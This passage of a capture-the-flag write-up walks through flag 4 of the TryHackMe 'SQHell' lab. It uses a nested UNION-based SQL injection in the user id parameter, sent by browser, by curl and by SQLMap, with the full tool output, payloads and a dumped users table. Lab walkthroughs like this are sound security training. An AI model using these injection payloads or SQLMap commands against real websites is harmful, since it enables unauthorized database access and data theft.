http://sqhell.thm/user?id=1337 union select "1 order by 1,2,3,4,5-- -",2,3 from information_schema.tables where table_schema=database()
```



We can see at five columns the posts disappear. This tells us there are four columns. Now we can use the same query as before to get the flag from the flag table:

```text
http://sqhell.thm/user?id=1337 union select "1 union select 1,flag,3,4 from flag-- -",2,3 from information_schema.tables where table_schema=database()
```



At last we have our flag.

## Flag 4 - Out-of-band - Curl Method

If we hadn't got a browser available we can do the same process using Curl. I won't go through all the steps again as they are just the same methodology as we did with Firefox.

Here we have that final query we ended with, now done via Curl:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s 'http://sqhell.thm/user?id=1337 union select "1 union select 1,flag,3,4 from flag-- -",2,3 from information_schema.tables where table_schema=database()' | grep THM
                                                    <li><a href="/post?id=1">THM{FLAG4:<HIDDEN>}</a></li>
```

## Flag 4 - Out-of-band - SQLMap Method

In all other flags we've seen how simple SQL injection and data retrieval is using SQLMap. For this particular flag we've found we need to use a query within a query to extract the flag. I'm not sure if there is a way to achieve this with SQLMap, but if there is I can't find the answer.

We can start the process as before:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/user?id=1" -p "id" --dbs --dbms=mysql --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:29:03 /2021-06-22/
[22:29:04] [INFO] testing connection to the target URL
[22:29:04] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:29:04] [INFO] testing if the target URL content is stable
[22:29:05] [INFO] target URL content is stable
[22:29:05] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[22:29:05] [INFO] testing for SQL injection on GET parameter 'id'
[22:29:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:29:05] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User")
[22:29:05] [INFO] testing 'Generic inline queries'
[22:29:05] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:29:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:29:05] [WARNING] time-based comparison requires larger statistical model, please wait..................... (done)
[22:29:16] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:29:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:29:31] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:29:31] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:29:31] [INFO] target URL appears to have 3 columns in query
[22:29:31] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1578=1578

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5090 FROM (SELECT(SLEEP(5)))lqAD)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8909 UNION ALL SELECT CONCAT(0x717a786271,0x7571704e66426443514343787058496b63617949696877694a676b65434e754863564c6c504d4965,0x717a787671),NULL,NULL-- -
---
[22:29:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:29:38] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] sqhell_4
[22:29:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:29:38 /2021-06-22/
```

SQLMap has found the database behind the page is sqhell_4. Let's try to dump it:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/user?id=1" -p "id" --dbms=mysql -D sqhell_4 --dump-all --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:30:58 /2021-06-22/
[22:30:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1578=1578

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5090 FROM (SELECT(SLEEP(5)))lqAD)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8909 UNION ALL SELECT CONCAT(0x717a786271,0x7571704e66426443514343787058496b63617949696877694a676b65434e754863564c6c504d4965,0x717a787671),NULL,NULL-- -
---
[22:30:58] [INFO] testing MySQL
[22:30:58] [INFO] confirming MySQL
[22:30:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:30:58] [INFO] fetching tables for database: 'sqhell_4'
[22:30:58] [INFO] fetching columns for table 'users' in database 'sqhell_4'
[22:30:58] [INFO] fetching entries for table 'users' in database 'sqhell_4'
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
[22:30:58] [INFO] table 'sqhell_4.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_4/users.csv'
[22:30:58] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:30:58 /2021-06-22/
```

We see SQLMap has only found the users table just like we did in the browser. In this instance the username and password are useless, so we'd have to take the payload it's used and start manually investigating.

That turned out to be a really long post. Hopefully there's enough ideas in there to help cope with any future CTFs we come across.

See you next time.
